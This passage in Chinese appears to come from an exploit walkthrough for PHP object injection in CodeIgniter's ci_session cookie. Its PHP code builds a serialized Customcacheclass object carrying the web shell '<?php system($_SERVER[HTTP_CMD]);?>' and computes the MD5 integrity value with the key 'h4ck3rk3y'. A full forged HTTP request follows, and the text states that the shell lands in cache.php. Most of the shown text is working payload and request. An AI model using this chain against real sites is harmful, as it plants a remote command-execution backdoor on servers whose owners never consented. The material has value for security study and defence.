 现在我们需要对构造的session会话数据计算真实的MD5值 以通过sess_read方法的完整性控制

```
<?php

$b = 'O:16:"Customcacheclass":2:{s:3:"dir";s:32:"application/libraries/cache_dir/";s:5:"value";s:35:"<?php system($_SERVER[HTTP_CMD]);?>";}';
$private_key = 'h4ck3rk3y';

echo md5($b.$private_key);
echo "\n";

```

结果是fc47e410df55722003c443cefbe1b779 我们将把这段MD5加在我们的新cookie值末尾

```
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0
Referer: http://localhost/
Cookie: ci_session=O%3A16%3A%22Customcacheclass%22%3A2%3A%7Bs%3A3%3A%22dir%22%3Bs%3A32%3A%22application%2flibraries%2fcache_dir%2f%22%3Bs%3A5%3A%22value%22%3Bs%3A35%3A%22%3C%3Fphp%20system%28%24_SERVER%5BHTTP_CMD%5D%29%3B%3F%3E%22%3B%7Dfc47e410df55722003c443cefbe1b779

```

当你发送上述的http请求给CI时你会看到下述代码出现在cache.php文件内

`<?php system($_SERVER[HTTP_CMD]);?>`